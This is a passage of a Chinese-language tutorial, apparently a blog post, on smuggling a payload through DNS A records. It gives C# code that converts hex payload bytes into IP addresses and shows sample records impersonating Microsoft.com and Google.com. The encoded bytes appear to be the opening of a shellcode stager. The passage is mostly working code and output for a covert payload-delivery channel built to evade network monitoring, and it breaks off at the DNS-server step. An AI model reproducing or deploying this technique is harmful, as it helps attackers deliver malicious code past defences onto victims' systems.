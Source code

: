   * 解决合理的IP数据解析的问题

  
在payload自身没有存在字节ASCII值超过256的时候，但是payload的长度超过256*3=768，我们采用上述排序的方法，最后一位的大小就会超出0-255。所以这时候我们就要分成多域名解析，比如payload的前768字节填充成ip后解析为Microsoft.com的DNS
A记录，剩余的数据填充成ip后解析成Google.com的DNS A记录，以此类推来达到传输全部payload数据的要求。
上诉都是基于IPV4的DNS解析的，其实如果是基于IPV6的DNS解析，这些限制都不会存在，后续讨论。  

##  **3.3 代码实现**

  

###  3.3.1 Dns_Create

  

它是用来创建dns A记录的程序，即将我们输入的payload数据转换成 DNS A记录数据。 先将payload数据格式化成数组

  * 

    
    
    string[] payload = _Payload.Replace(" ", "").Split(',');

  
将16进制的payload转换成10的ASCII值存放

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    int ip_counter = 0;if (payload.Length % 3 == 0){    ip_counter = payload.Length / 3;}else{    ip_counter = (payload.Length / 3 + 1);}int[] payload_int = new int[ip_counter * 3];for (int i = 0; i < payload.Length; i++){    payload_int[i] = Convert.ToInt32(payload[i], 16);}

  
如上，要看payload的长度是否超过3*256=768来决定是否使用多域名解析，并打印出DNS A记录解析的格式。  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    if (ip_counter <= 256){    for (int i = 0; i < ip_counter; i++)    {        string ip = null;        for (int j = 0; j < 3; j++)        {            ip += payload_int[i * 3 + j] + ".";        }        Console.WriteLine("{0} {1}", ip + i, "Microsoft.com"); //注意此处填充ip的最后一位i,其实是payload的排列顺序，在得到解析数据后要根据它来排序出正确顺序的payload。    }}else{    ...}

  
得到的最红解析的格式如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    252.232.137.0 Microsoft.com0.0.0.1 Microsoft.com96.137.229.2 Microsoft.com49.210.100.3 Microsoft.com139.82.48.4 Microsoft.com139.82.12.5 Microsoft.com...198.139.7.11 Google.com1.195.133.12 Google.com192.117.229.13 Google.com88.195.232.14 Google.com137.253.255.15 Google.com255.49.48.16 Google.com46.48.46.17 Google.com48.46.56.18 Google.com0.0.0.19 Google.com0.0.0.20 Google.com

  

### 3.3.2 开启DNS服务器

  
